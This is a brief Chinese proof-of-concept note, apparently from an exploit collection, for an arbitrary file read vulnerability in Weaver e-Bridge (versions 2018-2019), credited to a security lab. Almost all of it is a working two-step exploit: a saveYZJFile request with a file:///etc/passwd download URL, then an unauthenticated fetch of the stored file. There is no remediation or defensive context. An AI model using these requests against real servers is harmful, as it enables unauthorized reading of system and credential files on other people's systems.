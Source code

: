 # 泛微云桥 e-Bridge任意文件读取

影响版本：
- 2018-2019

poc
```
1、得到ID值
/wxjsapi/saveYZJFile?fileName=test&downloadUrl=file:///etc/passwd&fileExt=txt

2、构造get请求获取文件内容
/file/fileNoLogin/8e2558b16851455285ebf95c3e8e1184
```


[@雷石实验室]()